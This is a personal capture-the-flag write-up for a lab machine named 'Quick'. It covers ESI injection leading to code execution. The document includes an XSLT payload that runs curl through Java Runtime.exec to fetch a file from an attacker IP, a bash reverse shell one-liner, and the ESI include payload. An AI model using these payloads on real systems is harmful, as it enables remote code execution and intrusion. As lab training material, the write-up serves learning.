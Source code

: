 # Quick

[Quick.pdf](Quick%20b191dc627ddb4687b87c5ba82acd5c1f/Quick.pdf)

Quick is a hard difficulty Linux machine that features a website running on the  HTTP/3 protocol. Enumeration of the website reveals default credentials. The client portal is found to be vulnerable to ESI (Edge Side Includes) injection. This is used to obtain code execution and gain a foothold. A weak password gives access to a printer console, which permits the addition of new printers. Weak file permissions are exploited to move laterally. Plaintext credentials exposed in a configuration are reused to escalate to root.

## Skills Learned:

- HTTP/3 Protocol
- Using Symlinks
- ESI Injection
- Since the http server is running on a weird port, you should do a full port scan as well as a UDP scan
- Keep in mind that UDP is connectionless so the results aren't always what they seem to be

### Problems I Ran Into

- problem I ran into was getting the shell. the server from the attacker machine is supposed to be a PHP server because that one executes when it is connected to. run this with `sudo php -S 0.0.0.0:80`
- make an empty `xml` file on your attacker machine eg `pwn.xml`
- make the `esi.xsl` on your machine as well (same folder)

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[curl http://10.10.14.4/shell -o /tmp/shell]]>
</xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- make a bash file called `shell` on your machine (same folder as other two) and put the bash reverse shell one liner:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.6/9001 0>&1
```

- when making the ticket use this code snippet as the message:

```xml
<esi:include src="http://10.10.16.6/pwn.xml" stylesheet="http://10.10.14.4/esi.xsl">
</esi:include>
```

- now run the search ticket query and the bash script will be made on the remote server
- edit the `esi.xsl` script on you machine to run the command that'll run the bash script and spawn a reverse shell.